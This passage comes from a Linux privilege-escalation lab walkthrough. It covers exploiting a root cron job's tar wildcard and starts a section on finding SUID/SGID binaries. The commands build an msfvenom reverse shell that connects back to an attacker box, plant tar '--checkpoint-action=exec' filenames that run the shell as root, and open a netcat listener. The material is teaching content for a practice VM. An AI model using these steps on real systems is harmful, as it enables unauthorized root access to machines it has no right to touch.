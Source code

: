## 10. Cron Jobs - Wildcards

View the contents of the other cron job script:

```bash
cat /usr/local/bin/compress.sh
```

Note that the tar command is being run with a wildcard (*) in your home directory.

Take a look at the GTFOBins page for tar. Note that tar has command line options that let you run other commands as part of a checkpoint feature.

Use msfvenom on your Kali box to generate a reverse shell ELF binary. Update the LHOST IP address accordingly:

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o shell.elf
```

Transfer the shell.elf file to /home/user/ on the Debian VM (you can use scp or host the file on a webserver on your Kali box and use wget). Make sure the file is executable:

```bash
chmod +x /home/user/shell.elf
```

Create these two files in /home/user:

```bash
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.elf
```

When the tar command in the cron job runs, the wildcard (*) will expand to include these files. Since their filenames are valid tar command line options, tar will recognize them as such and treat them as command line options rather than filenames.

Set up a netcat listener on your Kali box on port 4444 and wait for the cron job to run (should not take longer than a minute). A root shell should connect back to your netcat listener.

```bash
nc -nvlp 4444
```

Remember to exit out of the root shell and delete all the files you created to prevent the cron job from executing again:

```bash
rm /home/user/shell.elf
rm /home/user/--checkpoint=1
rm /home/user/--checkpoint-action=exec=shell.elf
```

## 11. SUID / SGID Executables - Known Exploits

Find all the SUID/SGID executables on the Debian VM:

```bash
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```
